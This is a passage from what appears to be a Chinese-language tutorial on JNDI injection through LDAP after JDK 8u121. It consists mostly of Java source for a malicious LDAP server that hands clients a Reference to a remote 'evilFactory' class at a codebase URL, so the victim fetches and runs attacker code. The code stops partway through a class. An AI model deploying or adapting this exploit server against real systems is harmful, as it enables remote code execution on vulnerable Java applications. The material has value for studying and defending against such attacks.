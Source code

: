 在8u121之后因为RMI的利用受到限制,所以开始使用LDAP协议来进行攻击,而LDAP的利用方式和RMI类似,通过是绑定一个Reference在LDAP返回给客户端,客户端加载恶意的factory进行RCE.
#### 实现代码
```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class ldapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main(String[] args) {
        String[] p = new String[]{"http://127.0.0.1:8089/#evilFactory", "9999"};
        int port = 0;
        if (p.length < 1 || p[0].indexOf('#') < 0) {
            System.err.println(ldapServer.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (p.length > 1) {
            port = Integer.parseInt(p[1]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(p[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
```